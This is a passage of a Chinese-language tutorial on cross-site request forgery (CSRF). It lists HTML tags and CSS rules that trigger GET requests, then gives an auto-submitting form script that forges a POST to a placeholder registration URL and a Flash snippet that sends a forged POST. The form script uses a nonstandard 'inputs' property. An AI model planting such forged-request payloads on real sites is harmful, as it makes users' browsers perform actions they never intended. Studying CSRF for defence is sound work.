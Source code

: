 HTML中可以设置`src/href`等链接地址的标签都可以发起一个GET请求，如：

~~~html
<link href="">
<img src="">
<img lowsrc="">
<img dynsrc="">
<meta http-equiv="refresh" content="0; url=">
<iframe src="">
<frame src="">
<script src=""></script>
<bgsound src=""></bgsound>
<embed src=""></bgsound>
<video src=""></video>
<audio src=""></audio>
<a href=""></a>
<table background=""></table>
......
~~~

还有 CSS 样式中的：

~~~css
@import ""
background:url("")
......
~~~

也可使用表单来对 POST 型的请求进行伪造:

~~~html
<form action="http://www.a.com/register" id="register" method="post">
  <input type=text name="username" value="" />
  <input type=password name="password" value="" />
</form>
<script>
  var f = document.getElementById("register");
  f.inputs[0].value = "test";
  f.inputs[1].value = "passwd";
  f.submit();
</script>
~~~

#### Flash CSRF

Flash 也有各种方式可以发起网络请求，包括POST:

~~~
import flash.net.URLRequest;
import flash.system.Security;
var url = new URLRequest("http://target/page");
var param = new URLVariables();
param = "test=123";
url.method = "POST";
url.data = param;
sendToURL(url);
stop();
~~~
